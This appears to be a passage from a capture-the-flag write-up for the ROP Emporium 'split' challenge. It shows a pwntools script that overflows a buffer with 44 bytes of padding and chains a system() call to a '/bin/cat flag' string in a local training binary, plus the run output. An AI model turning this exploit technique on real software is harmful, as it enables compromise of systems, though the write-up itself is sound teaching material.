 
### Exploit

```python title="exploit32.py"
from pwn import *

padding = b"a"*44
bincat_addr = p32(0x804a030)
system_addr = p32(0x0804861a)

payload = padding + system_addr + bincat_addr

p = process('./split32')
p.sendline(payload) 
p.interactive()
```

Let's run the exploit.

```
$ python exploit32.py 
[+] Starting local process './split32': pid 16511
[*] Switching to interactive mode
split by ROP Emporium
x86

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
```
